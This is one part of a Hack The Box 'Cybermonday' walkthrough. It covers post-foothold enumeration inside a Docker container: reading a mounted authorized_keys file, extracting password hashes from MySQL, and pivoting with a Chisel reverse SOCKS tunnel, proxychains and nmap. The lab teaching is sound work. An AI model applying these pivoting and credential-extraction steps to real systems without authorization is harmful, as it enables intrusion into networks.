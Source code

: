 # HTB Cybermonday - Where to Now?

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[**Where to Now?**](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

As you do all your regular enumeration you'll quickly realise (if you hadn't already) that this is a [[docker|Docker]] container. Sometimes you can break out of Docker containers, but in this case it seems the vulnerabilities are all covered. One interesting directory is `/mnt`. It looks like a home directory from the host system has been mounted here. You can see the user flag is tantalisingly close, but unfortunately we can't read it at the moment. What about `authorized_keys`? Well it already exists and isn't writeable, but it is readable.
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCy9ETY9f4YGlxIufn... john@cybermonday
```

Now we have a username we can try to use for [[ssh|`ssh`]] to the host. Trying some of the basic passwords to login doesn't get us anywhere so lets continue with our Docker box for now. We have a couple of things we can do from here. We can look through the source code of the entire Cybermonday shopping app, and we can use the MySQL credentials from the `.env` file to connect to the database. The container doesn't have `mysql` installed so you'll have to use a [[php|PHP]] script if you want to do that. With this method we can extract the password hashes for the admin user and your own account:
```
1 - admin - admin@cybermonday.htb - $2y$10$6kJuFazZ...
2 - dot - ctf@dotefekts.net - $2y$10$6xMtStxbhJkEf0...
```

We can try and use `hashcat` to determine the admin password but it doesn't look like it's going to work any time soon. Looking through the code doesn't get us any particularly useful information either. So what else can we do? Well, Docker containers means a Docker network, one that we can now scan to find more services that might not have previously been accessible.
We'll need to know what the IP range of our network is, but `ifconfig` and `ip` are both not available on the container, so instead we can use:
```bash
hostname -I

<container ip>
```

So now how do we scan this network? Enter [Chisel](https://github.com/jpillora/chisel) a network tunnel that supports reverse proxy. Download Chisel to both your own device and the container. (As HTB machines don't have an internet connection you will need to use `python3 -m http.server` and then `curl` in the container to download Chisel from your device.) Once you have `chisel` ready to go, you can start the server on your device:
```bash
./chisel server -p 8080 --reverse
```

and then connect to it from the container:
```bash
./chisel client <your ip>:8080 R:socks
```

Once the container is connected, Chisel will tell you the port on your device to use to send traffic through the proxy. Now that we have the proxy, we'll need a way to allow `nmap` to utilise it. For this we'll use [Proxychains](https://github.com/haad/proxychains). You may find `proxychains` is already installed if you're using Pwnbox or Parrot, if not you should be able to obtain it via `sudo apt install proxychains`. Once installed, open `/etc/proxychains.conf`. Comment out `strict_chain` and uncomment `dynamic_chain`. You may also want to enable `quiet_mode` if you don't want your console spammed with failed connections. Comment out `proxy_dns`, and finally add the `SOCKS` proxy from `chisel` to the proxy list at the bottom of the file. Now we're ready to go.

Personally I found that running `nmap` on one IP at a time was far quicker than having it scan a range. This was likely because I've misconfigured something or used a wrong flag, but in any case you can scan the network in whatever fashion you please. As `ICMP` packets can't be sent through the `SOCKS` proxy, you'll need to disable host detection for the scan and use the `Connect` method. As such your command should look something like this:
```
proxychains nmap -sT <ip to scan> -Pn -oG logs/docker_1_scan -v
```

Once you've finished scanning, you'll see a number of services we're already aware of, such as Redis, MySQL, and the webhook API. One service that we haven't been aware of so far is one on port `5000`. A quick Google tells us this is likely to be a Docker registry service. 

Next: [Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)